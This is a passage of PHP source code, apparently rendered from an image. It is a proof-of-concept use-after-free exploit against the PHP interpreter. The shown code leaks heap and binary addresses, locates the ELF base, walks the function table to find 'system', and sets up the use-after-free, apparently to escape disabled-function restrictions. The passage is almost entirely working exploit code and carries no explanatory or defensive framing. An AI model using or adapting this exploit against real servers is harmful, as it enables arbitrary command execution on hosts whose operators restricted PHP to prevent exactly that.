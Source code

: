 ```php
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle(str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle(str_repeat('A', 79));

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
```